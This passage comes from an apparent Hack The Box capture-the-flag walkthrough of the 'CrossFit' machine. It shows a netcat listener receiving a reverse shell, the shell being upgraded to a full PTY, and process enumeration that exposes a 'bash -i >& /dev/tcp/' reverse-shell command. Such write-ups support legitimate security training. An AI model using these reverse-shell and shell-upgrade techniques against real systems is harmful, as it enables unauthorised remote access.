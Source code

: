 I received a connection request for my JavaScript code, and Burp, which I had used to send the request, showed that the server was stuck while trying to send me a response.  This was good sign as this tends to happen when sending a reverse shell this way.

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ script initial-foothold                                                                         1 ⨯
Script started, output log file is 'initial-foothold'.
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ bash                                                             
zweilos@kali:~/htb/crossfit$ nc -lvnp 8091
listening on [any] 8091 ...
connect to [10.10.14.161] from (UNKNOWN) [10.10.10.208] 60548
Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 22:51:04 up 2 days,  9:01,  0 users,  load average: 1.78, 2.11, 2.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
www-data@crossfit:/$ ^Z
[1]+  Stopped                 nc -lvnp 8091
zweilos@kali:~/htb/crossfit$ stty size
54 104
zweilos@kali:~/htb/crossfit$ stty raw -echo
nc -lvnp 8091aa:~/htb/crossfit$ 

www-data@crossfit:/$ stty rows 54 columns 104
www-data@crossfit:/$ export TERM=xterm-256color
```

After a little bit of waiting, I got a shell back on my waiting netcat listener!  The first thing I did was upgrade to a full PTY using Python.  

{% hint style="info" %}
Before starting my netcat listener I did some setup.  First I ran the **`script`** command to log all of my commands and output, and I also used **`bash`** because **`zsh`** has a problem \(at least on my system, not sure if it is a confirmed bug\) where backgrounding the connection and setting **`stty raw -echo`** breaks the shell in a way that I cannot use **`enter`** or control key commands.  If anyone has any feedback on this I would appreciate it!
{% endhint %}

### Enumeration as `www-data`

```text
www-data@crossfit:/run$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data  6266  0.0  0.0  10748  1204 pts/3    R+   22:56   0:00 ps aux
www-data 15839  0.0  0.2  17056  8284 ?        S    22:52   0:00 python3 -c import pty;pty.spawn("/bin/b
www-data 15866  0.0  0.0   7192  3476 pts/3    Ss   22:52   0:00 /bin/bash
www-data 17149  0.0  0.1  12216  7044 ?        S    17:35   0:00 python -c import pty;pty.spawn("/bin/ba
www-data 17200  0.0  0.0   3868  3216 pts/2    Ss+  17:35   0:00 /bin/bash
www-data 20099  0.0  0.0   2388   696 ?        S    22:51   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data 20109  0.0  0.0   2388   760 ?        S    22:51   0:00 /bin/sh -i
www-data 21211  0.0  0.0   2388   760 ?        S    Mar20   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.1
www-data 21212  0.0  0.0   3736  2800 ?        S    Mar20   0:00 bash -c bash -i >& /dev/tcp/10.10.14.24
www-data 21213  0.0  0.0   3868  3244 ?        S    Mar20   0:00 bash -i
www-data 21225  0.0  0.2  17056  8256 ?        S    Mar20   0:00 python3 -c import pty;pty.spawn("/bin/b
```